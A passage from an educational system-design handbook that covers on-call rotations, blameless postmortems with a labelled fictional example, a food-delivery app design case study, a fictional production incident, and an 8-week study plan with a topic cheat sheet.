    Primary --> Ack1{"Acknowledged<br/>within 5 min?"}
    Ack1 -->|"Yes"| Work["Primary triages<br/>and mitigates"]
    Ack1 -->|"No"| Secondary["Page secondary on-call"]
    Secondary --> Ack2{"Acknowledged<br/>within 5 min?"}
    Ack2 -->|"Yes"| Work
    Ack2 -->|"No"| Manager["Page team lead / manager"]
    Manager --> Work
    Work --> Big{"SEV1 or<br/>need help?"}
    Big -->|"Yes"| Escalate["Page Incident Commander<br/>and subject-matter experts"]
    Big -->|"No"| Done["Resolve and<br/>write handoff note"]
```

**💻 Example:** first, a Prometheus Alertmanager config that pages a human only for urgent alerts and sends everything else to Slack. Second, a runbook snippet that the page links to.

```yaml
# alertmanager.yml (excerpt): only severity=page wakes someone up
route:
  receiver: team-slack                 # default: a Slack message, no page
  routes:
    - matchers: [ 'severity="page"' ]
      receiver: pagerduty-checkout     # phone call / push to the on-call person
receivers:
  - name: pagerduty-checkout
    pagerduty_configs:
      - routing_key: "<PAGERDUTY_INTEGRATION_KEY>"
  - name: team-slack
    slack_configs:
      - channel: "#checkout-alerts"
        api_url: "<SLACK_WEBHOOK_URL>"
```

```text
RUNBOOK: CheckoutHighErrorRate
Alert:     checkout 5xx error rate > 5% for 2 minutes   (severity: page)
Impact:    Customers cannot pay. Usually SEV1 or SEV2.
Dashboard: https://grafana.example.com/d/checkout
Owner:     team-checkout        Escalate to: payments on-call (PagerDuty)

1. Did anything change in the last 60 minutes?
   - Deploys:  kubectl rollout history deploy/checkout -n shop
   - Flags:    check the feature-flag audit log
   -> If the timing matches: ROLL BACK FIRST, investigate later:
      kubectl rollout undo deploy/checkout -n shop
2. Is the payment provider down? Check their status page.
   -> If yes: turn ON flag "checkout.queue_payments" (orders saved, charged later).
3. Is the database saturated? Grafana panel "orders-db connections".
   -> If connections are maxed: restart stuck pods ONE at a time.
4. Still failing after 15 minutes? Declare SEV1 and page the Incident Commander.
5. Afterwards: post a summary in the incident channel; fix this runbook if it was wrong.
```

**🌍 Real-world usage:**
- **Google** SRE teams cap operational load and on-call frequency, as described in the SRE book's "Being On-Call" chapter.
- **Amazon** popularized "you build it, you run it", where service teams own their on-call.
- **GitLab** publishes its on-call and incident processes in its public company handbook.
- **PagerDuty**, **Opsgenie**, **Grafana OnCall**, **Splunk On-Call** and **incident.io** are widely used for schedules, paging and escalation.

**⚖️ Trade-offs:**

| Rotation style | When to use | Downside |
|---|---|---|
| Weekly primary/secondary | Most teams in one or two time zones | Night pages; needs enough people to stay fair |
| Follow-the-sun | Teams spread across the globe | Coordination and handoffs between sites; hard for small companies |
| Business-hours only | Internal tools, lower-tier services | Problems wait until morning |
| Separate ops / NOC team | Very large orgs, first-line monitoring | Responders may not know the code; slower fixes |

**⚠️ Common mistakes:**
- Paging for non-actionable alerts, causing **alert fatigue**: people start ignoring pages, including the real one.
- Too few people in the rotation, so everyone is on call too often and burns out.
- Missing or outdated runbooks.
- "Hero culture": not escalating, or one person silently fixing everything.
- No handoff notes, so the next on-caller rediscovers the same problem.
- Starting a shift without the necessary access (VPN, production permissions, dashboards).

**🎯 Remember:** Every page should be urgent, actionable and linked to a runbook. Healthy on-call means few pages, enough people, clear escalation and fair compensation.

**🔗 See also:** [#109 Production Incidents](#109-production-incidents), [#111 Postmortems](#111-postmortems), [#105 Disaster Recovery](#105-disaster-recovery), [#108 Chaos Engineering](#108-chaos-engineering)

---

### 111. Postmortems

> **In one line:** A postmortem is a written, blame-free review after an incident that explains what happened, why it happened, and what we will change so it does not happen again.

**🏠 Real-life analogy:** When a plane has an accident or a near miss, investigators don't just blame the pilot and move on. They ask how the cockpit design, checklists, training and schedules allowed the mistake, and then change those things for *every* plane. That habit of fixing the system instead of punishing the person is a big reason flying is so safe.

**❓ What problem does it solve?**
- Without postmortems, the same incidents keep repeating, because nothing changes.
- What was learned stays in one or two people's heads and disappears when they leave.
- In a blame culture, people hide mistakes or stay quiet about what they saw. Information is lost, and the system gets *less* reliable.

**⚙️ How it works:**

1. **Blameless culture:** assume everyone acted reasonably with the information they had at the time. Ask "how did the system allow this?" instead of "who did this?". "Human error" is where the investigation *starts*, not where it ends: if one typo can take down production (like the AWS S3 2017 incident, #109), the real problem is a tool without guardrails. Blameless does not mean nobody is accountable; the team is accountable for fixing the system.

2. **When to write one:** every SEV1 and SEV2, any data loss, any incident needing a rollback or manual intervention, and interesting **near misses** (things that almost broke). Write it within a few days, while memories are fresh.

3. **Template sections:**
   - **Summary:** two or three sentences: what happened, how long, how it was fixed.
   - **Impact:** who was affected, how many, for how long; money, data, SLOs.
   - **Timeline:** timestamped events from first signal to resolution.
   - **Root cause and contributing factors:** complex systems rarely have a single cause; list everything that lined up.
   - **What went well:** what helped (an alert fired fast, a runbook worked).
   - **What went wrong:** what slowed the response or made things worse.
   - **Where we got lucky:** things that could easily have made it much worse.
   - **Action items:** specific tasks, each with an **owner**, a **due date** and a ticket.

4. **The 5 Whys** (a technique from Toyota's manufacturing system): keep asking "why?" until you reach something you can fix in the system. Worked example for the fictional checkout incident in #109:
   1. *Why did checkout fail?* The new version crashed on every request.
   2. *Why did it crash?* It required a setting (`PAYMENT_TIMEOUT_MS`) that didn't exist in production.
   3. *Why was the setting missing?* It was added by hand to staging; production config lives in a separate repo, and nothing checks that the two match.
   4. *Why wasn't it caught before reaching all users?* The canary step was skipped with a command-line flag.
   5. *Why could the canary be skipped?* The pipeline allows skipping it without any approval.
   
   Fixes come from the *later* whys: validate config for every environment in CI, use safe defaults, and make canaries mandatory. Stopping at "the engineer forgot" would fix nothing. Real causes often branch, so it's fine to follow more than one chain.

5. **The review meeting:** the people involved read the document together, correct the timeline, and agree on action items. A neutral facilitator keeps it blameless.

6. **Track action items to completion:** put them in the normal ticket system, label them (for example `postmortem`), and review open ones every week. A postmortem whose action items never get done is just a story. Sort actions into **prevent** (stop it happening), **detect** (notice it sooner) and **mitigate** (make it smaller or shorter).

7. **Share widely:** keep a searchable library of postmortems and discuss interesting ones across teams. Some companies publish **public postmortems**: Cloudflare, GitLab and AWS have all published detailed reports about major incidents. Being honest in public builds customer trust.

```mermaid
flowchart LR
    Incident["Incident happens"] --> Draft["Write blameless<br/>postmortem draft"]
    Draft --> Review["Review meeting<br/>agree on actions"]
    Review --> Actions["Action items<br/>owner + due date"]
    Actions --> Track["Tracked to done<br/>in weekly review"]
    Track --> Share["Share widely<br/>postmortem library"]
    Share --> Better["Safer system<br/>better alerts and runbooks"]
    Better -.->|"fewer, smaller<br/>incidents"| Incident
```

```mermaid
flowchart TD
    Problem["Checkout failed for 15 minutes"] --> Why1["Why? New version crashed"]
    Why1 --> Why2["Why? Required setting missing in prod"]
    Why2 --> Why3["Why? Config set by hand, never compared"]
    Why3 --> Why4["Why not caught? Canary was skipped"]
    Why4 --> Why5["Why possible? Pipeline allows skipping"]
    Why5 --> Fix["Fix the system:<br/>config check in CI,<br/>mandatory canary, safe defaults"]
```

**💻 Example:** a complete but short sample postmortem for the incident in #109. **It is fictional**; the company and people are made up.

```text
POSTMORTEM: FICTIONAL EXAMPLE ("Acme Shop" and these people are made up)
Title:    Checkout errors after checkout-service v2.31.0 deploy
Date:     2026-10-27     Severity: SEV2     Status: action items in progress
Authors:  Priya (IC), Sam (on-call)         Reviewed: 2026-10-29

SUMMARY
For 15 minutes (14:04-14:19 UTC), about 12% of checkout attempts failed with
HTTP 500 errors. A new release required a setting that was missing in
production. We mitigated by rolling back. No data was lost; nobody was
charged twice.

IMPACT
- About 12% of checkout attempts failed for 15 minutes, in all regions.
- Support received a spike of tickets; some customers did not retry.
- A noticeable part of this month's checkout error budget (SLO) was used.

TIMELINE (UTC)
14:02  Deploy of v2.31.0 started; canary skipped with --skip-canary
14:04  Errors begin
14:06  Alert CheckoutHighErrorRate fired; Sam paged
14:09  Sam acknowledged, linked spike to deploy, declared SEV2, opened channel
14:10  Priya took the Incident Commander role
14:12  Decision: roll back (runbook step 1)
14:14  First status page update posted
14:19  Rollback complete; error rate back to 0.3%
14:35  Stable for 15 minutes; incident resolved

ROOT CAUSE AND CONTRIBUTING FACTORS
- Root cause: v2.31.0 required PAYMENT_TIMEOUT_MS, which existed only in staging.
- Contributing: each environment's config lives in a separate repo with no
  check that required settings exist everywhere.
- Contributing: the pipeline allows skipping the canary without approval.
- Contributing: the app crashed on a missing setting instead of using a default.

WHAT WENT WELL
- The alert fired 2 minutes after errors began; on-call acknowledged in 3.
- The runbook said "roll back first", so nobody debugged while users suffered.

WHAT WENT WRONG
- Skipping the canary exposed 100% of users instead of a small slice.
- The first status page update came 5 minutes after the incident was declared.

WHERE WE GOT LUCKY
- It happened on a weekday afternoon with the whole team online.
- Our busiest shopping week starts in a few weeks; this could have hit at peak.

ACTION ITEMS
1. [Prevent]  CI check: required settings must exist in every environment
              Owner: Lee    Due: 2026-11-07   Ticket: SHOP-1234
2. [Prevent]  Canary is mandatory for Tier 0 services (remove skip flag)
              Owner: Priya  Due: 2026-11-04   Ticket: SHOP-1235
3. [Mitigate] Use safe defaults for optional settings at startup
              Owner: Sam    Due: 2026-11-14   Ticket: SHOP-1236
4. [Detect]   Auto-draft a status page update when SEV2+ is declared
              Owner: Jo     Due: 2026-11-21   Ticket: SHOP-1237
```

**🌍 Real-world usage:**
- **Google**'s SRE book has a full chapter on postmortem culture, including sharing postmortems widely across the company.
- **Etsy** helped popularize blameless postmortems in the tech industry around 2012.
- **Cloudflare** publishes detailed public postmortems on its blog (for example, its July 2019 outage caused by a bad regular expression in a WAF rule).
- **GitLab** published a very detailed public postmortem of its January 2017 database incident (#104), and **AWS** publishes post-event summaries for major outages such as S3 in 2017 and `us-east-1` in December 2021.
- Templates and tooling: Atlassian's incident handbook, PagerDuty's postmortem guide, incident.io, FireHydrant, Rootly, Jira.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Full postmortem + review meeting | SEV1/SEV2, data loss, security incidents | Takes several hours of several people's time |
| Lightweight write-up | SEV3s and near misses | May miss deeper contributing factors |
| Public postmortem | Customer-facing outages; builds trust | Needs careful review (security, legal) and takes longer to publish |
| Internal only | Sensitive details, internal systems | Customers may feel left in the dark |

**⚠️ Common mistakes:**
- Blaming a person ("Bob ran the wrong command"), which teaches everyone to hide mistakes.
- Stopping at "human error" as the root cause.
- Vague action items like "be more careful" or "improve monitoring" with no owner or due date.
- Writing the postmortem but never tracking the action items, so the same incident repeats.
- Waiting weeks to write it, when nobody remembers the details.

**🎯 Remember:** Blameless postmortems turn painful incidents into permanent improvements. Fix the system, not the person, and track every action item until it's done.

**🔗 See also:** [#109 Production Incidents](#109-production-incidents), [#110 On-Call](#110-on-call), [#104 Backups](#104-backups), [#108 Chaos Engineering](#108-chaos-engineering)

---

### 🧠 Part 16 Quiz

**Q1. What does the Incident Commander do, and why shouldn't they also be the one debugging?**
<details><summary>Show answer</summary>

The Incident Commander coordinates the response: assigns roles, makes decisions (such as "roll back now"), and makes sure communication happens. If they dive into debugging, nobody keeps the big picture, so work gets duplicated, updates stop and decisions stall.

</details>

**Q2. You're on call. A deploy went out 10 minutes ago and checkout errors are spiking. What do you do first?**
<details><summary>Show answer</summary>

Acknowledge the page, assess the impact, and declare an incident with a severity. Then mitigate first: roll back the deploy (or turn off its feature flag) before trying to understand the root cause. Investigate once users are OK again.

</details>

**Q3. SEV1 vs SEV3: what's the difference? Give an example of each.**
<details><summary>Show answer</summary>

SEV1 is critical: a major outage, data loss or security breach, such as checkout being down for everyone. It gets an immediate 24/7 page, an Incident Commander and frequent updates. SEV3 is minor, with limited impact and a workaround, such as slow search for some users. It's handled during business hours through a ticket.

</details>

**Q4. Why should postmortems be blameless? Doesn't that mean nobody is accountable?**
<details><summary>Show answer</summary>

When people fear blame, they hide mistakes and details, so the real causes stay hidden and incidents repeat. Blameless means looking at how the system (tools, processes, guardrails) allowed the mistake. Accountability still exists: the team owns the action items and must complete them.

</details>

**Q5. Your team gets about 15 pages per night, mostly "CPU above 80%" alerts that fix themselves. What would you change?**
<details><summary>Show answer</summary>

That is alert fatigue, and real problems will get missed. Page only for urgent, actionable, user-facing symptoms (error rate, latency, SLO burn), and turn everything else into tickets or dashboards. Link a runbook to each page, review page counts every week, and aim for the Google SRE guideline of at most about 2 incidents per 12-hour shift on average.

</details>


## Part 17 — Putting It All Together

You've now seen 111 separate ideas. Real systems use **dozens of them at the same time**. This part designs one
realistic product from scratch and then follows one bad day in production, so you can see how the pieces connect.

```mermaid
flowchart LR
    Req["Requirements"] --> Est["Estimates"]
    Est --> Api["APIs and data model"]
    Api --> High["High-level design"]
    High --> Deep["Deep dives"]
    Deep --> Ops["Operate it:<br/>deploy, observe, secure, recover"]
```

---

### 17.1 Case Study: Designing a Food Delivery App

> **In one line:** We'll design "QuickBite", a simplified Uber Eats / DoorDash / Swiggy, and point out every handbook
> concept as it shows up.

**Step 1 — Requirements (what must it do?)**

| Functional (features) | Non-functional (qualities) |
|---|---|
| Browse restaurants & menus near me | Menu browsing p99 < 300 ms (#7) |
| Place an order and pay | **Never** charge twice (#29) |
| Restaurant accepts / prepares the order | 99.9% availability for ordering (#89) |
| Assign a driver, show live driver location | Live location updates every ~4 s (#22) |
| Notifications (push / SMS / email) | Survive the loss of one data center (#105) |
| Ratings & order history | Secure payments & personal data (Part 14) |

**Step 2 — Back-of-the-envelope estimates**

- 10 million daily active users, 1 order per user every 5 days → **2 million orders/day** ≈ 23 orders/s average, ~200/s at dinner peak.
- Browsing is ~50× more frequent than ordering → ~1,200 reads/s average, **~10,000 reads/s at peak** → this is read-heavy → **caching + CDN + read replicas**.
- 100,000 active drivers sending a GPS ping every 4 s → **25,000 location writes/s**. This is a distinct,
  high-volume workload: consider an in-memory geo store for latest locations plus streaming for history,
  rather than competing with checkout. This rate is **not** a universal SQL limit; benchmark the actual hardware,
  schema, indexes, durability requirements, and batching before choosing a storage system.
- 2M orders × ~2 KB ≈ 4 GB/day of order data → ~1.5 TB/year → plan **partitioning** by month (#46).

**Step 3 — High-level architecture**

```mermaid
flowchart TB
    Users["Customer app / web"] --> Dns["DNS + GeoDNS (#1)"]
    Drivers["Driver app"] --> Dns
    Dns --> Cdn["CDN + WAF + DDoS protection<br/>(#9, #97, #98)"]
    Cdn --> Gw["API Gateway<br/>auth, rate limiting (#13, #14)"]
    Gw --> Menu["Menu and Search service"]
    Gw --> Order["Order service"]
    Gw --> Loc["Location service<br/>(WebSockets #22)"]
    Menu --> Redis[("Redis cache (#38)")]
    Menu --> Search[("Search index")]
    Order --> Pay["Payment service"]
    Pay --> Psp["External payment provider<br/>(webhooks #19)"]
    Order --> OrderDb[("Orders DB<br/>primary + replicas (#44, #45)")]
    Order --> Bus["Event bus: Kafka<br/>(#32, #33)"]
    Bus --> Dispatch["Driver dispatch service"]
    Bus --> Notify["Notification service"]
    Bus --> Analytics["Analytics"]
    Loc --> Geo[("In-memory geo store")]
    Dispatch --> Geo
    Notify --> Dlq["Dead letter queue (#34)"]
```

**Step 4 — The most important flow: placing an order**

This is where money moves, so it uses the most patterns: **timeouts, retries, idempotency, saga, outbox, events**.

```mermaid
sequenceDiagram
    participant App as Customer App
    participant GW as API Gateway
    participant O as Order Service
    participant P as Payment Service
    participant R as Restaurant Service
    participant K as Kafka
    App->>GW: POST /orders with Idempotency-Key abc-123
    GW->>GW: verify JWT, check rate limit
    GW->>O: create order
    O->>O: key abc-123 seen before? no, save PENDING order + outbox row in one transaction
    O->>P: authorize payment with stable provider idempotency key
    P-->>O: payment authorized
    O->>R: ask restaurant to accept (timeout 3s)
    alt restaurant accepts
        R-->>O: accepted
        O->>K: publish OrderConfirmed (via outbox)
        O-->>App: 201 Created, status CONFIRMED
    else restaurant rejects
        O->>P: request idempotent void of authorization
        O-->>App: order rejected, payment reversal pending confirmation
    else outcome unknown after timeout
        O-->>App: 202 Accepted, status PENDING, check order status
        O->>P: reconcile provider status using the same operation ID
    end
```

What's happening, concept by concept:

1. **Idempotency key** (#29): if the phone loses signal and the app retries, the server sees `abc-123` again and returns the first result instead of charging twice.
2. **JWT + rate limiting at the gateway** (#94, #14): bad or abusive traffic stops at the front door.
3. **Timeouts + retries with exponential backoff + jitter** (#25, #26, #27) on calls to payment and restaurant.
4. **Circuit breaker** (#28) around the payment provider: if it's down, fail fast with a friendly message instead of piling up threads.
5. **Saga with compensation** (#37): there's no single transaction across order, payment, and restaurant.
   Record each state durably. A void or refund is a new operation, can fail, and needs retries or manual reconciliation;
   never tell the customer "you were not charged" solely because a request timed out.
6. **Transactional outbox** (#36): in the confirmation transaction, update the order and insert the
   `OrderConfirmed` outbox row together. This avoids the database/message-broker dual-write gap.
   A relay retries publication; duplicate delivery is possible, so consumers deduplicate event IDs.
7. **Event-driven fan-out** (#33): dispatch, notifications, and analytics react to `OrderConfirmed` independently. If notifications are down, ordering still works.

**Step 5 — Deep dives**

| Problem | Design choice | Concepts |
|---|---|---|
| Menus are read 50× more than written | Cache-aside in Redis with 5-minute TTL; delete key when the restaurant edits its menu; images on CDN | #38, #39, #9, #10 |
| Restaurant search "near me" | Search index with geo queries; replicas for read scale | #40, #45 |
| 25,000 GPS pings/s | Drivers push over WebSockets to stateless location servers; latest position kept in an in-memory geo store; history streamed to Kafka | #22, #64, #31 |
| Customers watching the driver move | Server pushes updates via WebSockets (or SSE as a simpler one-way alternative) | #21, #22 |
| Order table grows 1.5 TB/year | Partition by month; old partitions archived to cheap storage | #46, #68 |
| Growth to 100M users | Shard orders by `customer_id`; shard location by city/region | #47 |
| Two dispatchers grab the same driver | Atomic conditional update `UPDATE drivers SET order_id=? WHERE id=? AND order_id IS NULL` (optimistic) | #56, #58 |
| Nightly payouts to restaurants | Kubernetes CronJob with `concurrencyPolicy: Forbid` to limit overlap for that CronJob; durable deduplication per payout ID because scheduling is not exactly once | #35, #29 |
| Notification provider flaky | Queue + retries + DLQ, alert on DLQ depth | #31, #34, #87 |
| Dinner-time spikes | Autoscaling on RPS & queue depth, load shedding for non-critical endpoints | #65, #30 |
| Data center failure | Multi-AZ everything; DB failover to replica; backups with point-in-time recovery | #106, #104, #105 |

**Step 6 — How it's built, shipped, and operated**

```mermaid
flowchart LR
    Dev["Developer pushes code"] --> Ci["CI: lint, test, build image<br/>(#74, #75)"]
    Ci --> Reg[("Image registry")]
    Reg --> Cd["CD: Helm upgrade via Argo CD<br/>(#71, #70)"]
    Cd --> Canary["Canary 5 percent<br/>(#80)"]
    Canary -->|"SLOs healthy"| Full["100 percent rollout"]
    Canary -->|"error rate up"| Back["Automatic rollback<br/>(#81)"]
    Full --> Obs["Metrics, logs, traces<br/>(#83, #84, #85)"]
    Obs --> Alert["SLO burn-rate alerts<br/>(#87, #90)"]
    Alert --> OnCall["On-call engineer<br/>(#110)"]
```

- Infrastructure (VPCs, databases, Kubernetes clusters) is defined in **Terraform** (#73) and reviewed in pull requests (#72).
- Secrets (DB passwords, payment API keys) live in a **secrets manager** (#91), never in Git.
- Services authenticate to each other with **mTLS** (#95); data at rest is encrypted with **KMS** keys (#96).
- New features ship dark behind **feature flags** (#77), e.g. "new checkout page for 10% of users in Bangalore".

**🎯 Remember:** In a design discussion, always say **why** you add each component ("reads are 50× writes, so we cache")
and what it **costs** ("cache invalidation complexity, possible stale menus for up to 5 minutes").

---

### 17.2 How to Approach Any System Design Problem

> **In one line:** Clarify, estimate, sketch, deep-dive, and discuss trade-offs — in that order.

```mermaid
flowchart TD
    A["1. Clarify requirements<br/>features, users, scale, constraints"] --> B["2. Estimate<br/>RPS, storage, bandwidth, read/write ratio"]
    B --> C["3. Define APIs<br/>endpoints, requests, responses"]
    C --> D["4. Data model<br/>entities, SQL vs NoSQL, keys"]
    D --> E["5. High-level design<br/>boxes and arrows, happy path"]
    E --> F["6. Deep dives<br/>bottlenecks, scaling, failure modes"]
    F --> G["7. Wrap up<br/>trade-offs, monitoring, security, what you'd do next"]
```

**A checklist of questions to ask yourself in step 6:**

| Question | Concepts to reach for |
|---|---|
| What's the single point of failure? | #12 Load Balancing, #44 Replication, #106 Failover |
| What happens when a dependency is slow or down? | #25 Timeouts, #26 Retries, #28 Circuit Breakers |
| What if the same request arrives twice? | #29 Idempotency |
| Is it read-heavy or write-heavy? | #38 Caching, #45 Read Replicas, #47 Sharding |
| Does work need to happen right now, or later? | #31 Message Queues, #33 Event-Driven Architecture |
| Do two users fight over the same row? | #56 Race Conditions, #58 / #59 Locking |
| How strong must consistency be? | #50 CAP, #51 Eventual Consistency |
| How will we know it's broken? | #84 Metrics, #87 Alerts, #89 SLOs |
| How do we ship safely and undo mistakes? | #80 Canary, #81 Rollbacks, #77 Feature Flags |
| What can an attacker do? | Part 14 |
| What if the region burns down? | #104 Backups, #105 Disaster Recovery, #107 Multi-Region |

---

### 17.3 A Bad Day in Production: One Incident, Many Concepts

> **In one line:** A story of a real-feeling outage that touches deployment, observability, resilience, databases, and incident response.

*This story is fictional, but every step reflects how real incidents unfold.*

**18:55** — A developer merges a change adding "restaurant ratings" to the order history page. CI passes (#74).
It ships as a **canary** to 5% of pods (#80).

**19:10** — Dinner rush begins. Traffic triples. **Autoscaling** (#65) adds pods — and every new pod runs the new version
because the canary was auto-promoted after 10 calm minutes.

**19:14** — The **SLO burn-rate alert** (#90) fires: p99 latency for `/orders/history` is 4 s (SLO: 99% under 500 ms).
**PagerDuty** pages the **on-call** engineer (#110).

**19:17** — On-call opens an incident channel, declares **SEV2**, becomes **Incident Commander** (#109).
The dashboard (#86) shows **database connection pool exhaustion** (#43) and DB CPU at 95%.

**19:20** — A **distributed trace** (#85) of one slow request shows **101 database queries**: 1 query for orders,
then 1 query *per order* for its restaurant rating — an **N+1 query** (#42).

```mermaid
flowchart LR
    Deploy["New code deployed"] --> NPlus["N+1 queries per request"]
    NPlus --> Pool["DB connection pool exhausted"]
    Pool --> Slow["Requests wait, then time out"]
    Slow --> Retry["Clients retry"]
    Retry --> Pool
    Slow --> Orders["Order placement also slows<br/>(same DB)"]
```

**19:22** — Clients **retry** (#26), making it worse — a retry storm. Fortunately the mobile app uses **exponential backoff
with jitter** (#27) and the gateway's **rate limiter** (#14) caps the flood.

**19:24** — **Mitigate first, investigate later.** The ratings feature was behind a **feature flag** (#77) — it's switched off.
Latency drops within a minute. (Plan B was `helm rollback` (#81).)

**19:40** — Incident resolved. Customer-facing status page updated.

**Next day — Blameless postmortem** (#111):

| Section | Content |
|---|---|
| Root cause | N+1 query introduced by lazy loading in the ORM |
| Contributing factors | Canary analysis looked only at error rate, not latency; staging data had 3 orders per user, prod users have hundreds; no per-request query-count metric |
| What went well | Feature flag allowed a 1-minute mitigation; backoff + rate limiting prevented a full outage |
| Action items | Add eager loading (`selectinload`) + test asserting query count; add p99 latency to canary analysis; add DB pool saturation alert; load-test with prod-like data |

**🎯 Remember:** Incidents are almost never one failure. They are a **chain** — and every link is a concept from this handbook
that could have broken the chain.

### 🧠 Part 17 Quiz

**Q1. In QuickBite, why do we use an idempotency key when placing an order?**
<details><summary>Show answer</summary>

Because networks fail and clients retry. Without an idempotency key, a retry after a timeout could create a second order and charge the customer twice. With it, the server recognises the repeat and returns the original result.

</details>

**Q2. Why not use one big database transaction across the order, payment, and restaurant services?**
<details><summary>Show answer</summary>

They are separate services with separate databases (and payments involve an external company). Distributed transactions like 2PC are slow, fragile, and often impossible across third parties. A saga with compensating actions (refund/void) is used instead.

</details>

**Q3. Driver locations arrive at 25,000 writes/second. Why not store each ping as a row in the main PostgreSQL orders database?**
<details><summary>Show answer</summary>

It could compete with critical order traffic, and dispatch needs the *latest* location rather than a query over every historical ping. Separating this workload can protect checkout. An in-memory geo store and a history stream are one option, not proof that PostgreSQL cannot handle 25,000 writes/second. Measure first.

</details>

**Q4. In the incident story, what was the fastest mitigation and why was it possible?**
<details><summary>Show answer</summary>

Turning off the feature flag for ratings. It was fast because the risky code path was wrapped in a flag, so no redeploy or rollback was needed.

</details>

**Q5. Name three things that made the incident worse and one that limited it.**
<details><summary>Show answer</summary>

Worse: the N+1 query, auto-promotion of the canary based only on error rate, and client retries during a traffic spike (plus autoscaling spreading the bad version). Limited it: exponential backoff with jitter on clients and the gateway rate limiter (and the feature flag for fast mitigation).

</details>

---


## Part 18 — Learning Roadmap, Cheat Sheet & Glossary

Use this part to plan your learning, practise with real projects, and revise quickly before an interview or a design review.

---

### 18.1 An 8-Week Study Plan

> **In one line:** Use this as an eight-week **first pass**, not a promise of mastery. Budget about an hour
> a day for selected reading; hands-on projects take additional time. If you are new to programming,
> spend extra weeks on the first lab and basic Python before moving on.

```mermaid
gantt
    title 8-week plan (about 1 hour per day)
    dateFormat YYYY-MM-DD
    axisFormat W%W
    section Foundations
    Part 0 and Part 1 Networking           :a1, 2026-01-05, 7d
    Part 2 Traffic and Part 3 APIs         :a2, after a1, 7d
    section Building reliable services
    Part 4 Resilience and Part 5 Async     :b1, after a2, 7d
    Part 6 Caching and Part 7 Databases    :b2, after b1, 7d
    section Hard theory
    Part 8 Distributed and Part 9 Concurrency :c1, after b2, 7d
    section Running in production
    Part 10 Scaling and Part 11 Infra      :d1, after c1, 7d
    Part 12 Releases and Part 13 Observability :d2, after d1, 7d
    Part 14 to 17 Security, DR, Ops, Capstone :d3, after d2, 7d
```

| Week | Read | Practise (do at least one) |
|---|---|---|
| 1 | Part 0, selected Part 1 topics | Complete the local lab below; inspect one ordinary `curl -v https://example.com` request |
| 2 | Parts 2, 3 | Put nginx in front of two copies of a tiny app; add rate limiting |
| 3 | Parts 4, 5 | Add timeouts, retries with jitter, and a circuit breaker to an HTTP client; build a queue worker with a DLQ |
| 4 | Parts 6, 7 | Add Redis cache-aside to an API; use `EXPLAIN ANALYZE` to fix a slow query; reproduce and fix an N+1 |
| 5 | Parts 8, 9 | Write a Python race condition, then fix it 3 ways (lock, atomic SQL, optimistic version column) |
| 6 | Parts 10, 11 | Dockerize your app, run it on a local Kubernetes (kind/minikube), add an HPA; write a GitHub Actions pipeline |
| 7 | Parts 12, 13 | Do a rolling update and a rollback; add Prometheus metrics + Grafana dashboard + one alert |
| 8 | Parts 14–17 | In a disposable, isolated local lab only, study a deliberately vulnerable app such as OWASP Juice Shop; write a postmortem for a fake incident |

---

### 18.2 Hands-On Projects (Learning by Building)

| # | Project | Concepts you'll touch |
|---|---|---|
| 1 | **URL shortener** (like bit.ly) | Hashing/IDs, caching, DB indexing, rate limiting, 301 vs 302 redirects, analytics via queue |
| 2 | **Real-time chat app** | WebSockets, pub/sub with Redis, presence/heartbeats, horizontal scaling, message persistence |
| 3 | **Job queue + workers** | Message queues, retries, exponential backoff, idempotency, DLQ, backpressure, autoscaling on queue depth |
| 4 | **E-commerce checkout** | Transactions, optimistic/pessimistic locking, idempotency keys, saga with compensation, webhooks |
| 5 | **Rate limiter as a service** | Token bucket, sliding window, Redis + Lua, distributed correctness, HTTP 429 |
| 6 | **News feed** | Fan-out on write vs read, caching, pagination (keyset), eventual consistency |
| 7 | **Observability lab** | OpenTelemetry tracing, structured logs, Prometheus metrics, SLOs and burn-rate alerts |
| 8 | **Infrastructure lab** | Terraform a VPC + database, Helm chart for your app, CI/CD with canary rollout and auto-rollback |

**Tip:** For each project, write a one-page design doc (requirements → estimates → API → data model → diagram → trade-offs)
*before* coding. That habit is exactly what Part 17.2 teaches.

**A slower path is completely fine:** first explain the analogy, then trace one diagram, then run one
example, then break one assumption in your own lab. Move on when you can answer "what problem does this
solve, how can it fail, and when would I avoid it?" without looking.

---

### 18.3 One-Line Cheat Sheet (All 111 Topics)

**Part 1 — Networking Fundamentals**

| # | Topic | One-line summary |
|---|---|---|
| 1 | DNS | The internet's phone book: turns names (`google.com`) into IP addresses, with caching controlled by TTL |
| 2 | TCP vs UDP | TCP provides a reliable ordered byte stream; UDP provides datagrams without delivery or ordering guarantees; neither is universally faster |
| 3 | HTTP/2 & HTTP/3 | HTTP/2 multiplexes many requests on one TCP connection; HTTP/3 does it over QUIC (UDP) to avoid head-of-line blocking |
| 4 | TLS | Encrypts, protects integrity, and proves server identity via certificates; the "S" in HTTPS |
| 5 | Latency | Time for one request to complete; limited by distance, processing, and queuing |
| 6 | Throughput | How much work per unit of time (RPS, MB/s); Little's Law links it to latency and concurrency |
| 7 | p99 Latency | 99% of requests are faster than this; averages hide the slow users |
| 8 | Tail Latency | The slowest few percent of requests; fan-out makes rare slowness common |
| 9 | CDN | A worldwide network of caches serving content from servers near the user |
| 10 | Edge Caching | Caching (and computing) at those nearby servers, controlled by `Cache-Control`, TTLs, cache keys, and purges |

**Part 2 — Traffic Management**

| # | Topic | One-line summary |
|---|---|---|
| 11 | Reverse Proxies | A server in front of your servers: TLS termination, routing, caching, compression, protection |
| 12 | Load Balancing | Spreads traffic across many servers (round robin, least connections, hashing) and skips unhealthy ones |
| 13 | API Gateway | One front door for many services: auth, rate limits, routing, transformations |
| 14 | Rate Limiting | Caps how many requests a client can make (token bucket, sliding window); returns 429 |
| 15 | Service Discovery | A live directory so services can find each other's changing addresses |
| 16 | Health Checks | Endpoints/pings that tell load balancers which instances can take traffic |
| 17 | Liveness & Readiness Probes | Kubernetes: liveness = restart me if stuck; readiness = don't send me traffic yet |

**Part 3 — APIs & Real-Time Communication**

| # | Topic | One-line summary |
|---|---|---|
| 18 | gRPC | Fast, typed service-to-service calls using Protocol Buffers over HTTP/2, with streaming |
| 19 | Webhooks | The server calls *you* (HTTP POST) when an event happens; verify signatures, handle duplicates |
| 20 | Long Polling | Client asks, server holds the request open until there's news or a timeout |
| 21 | Server-Sent Events | One-way server → browser stream over plain HTTP with auto-reconnect |
| 22 | WebSockets | A persistent two-way connection for chat, games, live collaboration |
| 23 | API Versioning | Change your API without breaking existing clients (`/v1/`, headers, dated versions) |
| 24 | Semantic Versioning | MAJOR.MINOR.PATCH = breaking.feature.fix |

**Part 4 — Resilience Patterns**

